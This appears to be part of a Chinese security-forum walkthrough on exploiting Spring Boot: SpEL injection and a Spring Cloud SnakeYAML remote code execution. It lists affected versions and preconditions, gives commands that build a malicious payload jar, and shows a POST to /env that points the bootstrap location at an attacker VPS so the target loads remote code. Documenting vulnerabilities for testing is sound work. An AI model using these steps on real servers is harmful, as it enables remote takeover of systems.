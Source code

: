     ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-04f0962d8e7df0952a94cc43ba26b374de6e9061.png)
    
    ### 2.1.4 漏洞原理
    
    spring boot 处理参数值出错，报错页面是包含了一些spel表达式的，所以会对报错页面内的spel表达式进行循环查找并解析出来，从而达到了命令注入，详情函数分析见参考文章。

2.2 spring cloud SnakeYAML RCE
------------------------------

### 2.2.1 影响版本

```php
SpringBoot 2.x 无法利用; 
SpringBoot 1.5.x 在 Dalston 版本可以利用，在 Edgware 版本无法利用;  
SpringBoot &lt;=1.4 可以利用.
```

### 2.2.2 利用条件

- `/env` 接口可以POST访问；
- `/refresh` 接口可以POST刷新配置；
- `spring-cloud-starter` 版本 &lt; 1.3.0.RELEASE，存在 `spring-boot-starter-actuator` 依赖）；
- 可以访问外网。

### 2.2.3 漏洞复现

1. 准备yml和jar文件；

```php
https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springcloud-snakeyaml-rce  
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-e51e856217e3a98a2aa03183adcd594000aa5cca.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-6c0b8ad215423d98f699e86f2e8559b1a8078c22.png)

```php
javac src/artsploit/AwesomeScriptEngineFactory.java 
jar -cvf yaml-payload.jar -C src/ .
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-c9a00809f7cae61e95ea2e8e50a9459552953292.png)  
jar是要执行的文件，通过yml文件访问到jar。

2. 设置 spring.cloud.bootstrap.location 属性

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a9eaab20f5742da591e4ab9b5efe50ef3118851c.png)

```php
spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/yaml-payload.yml
```
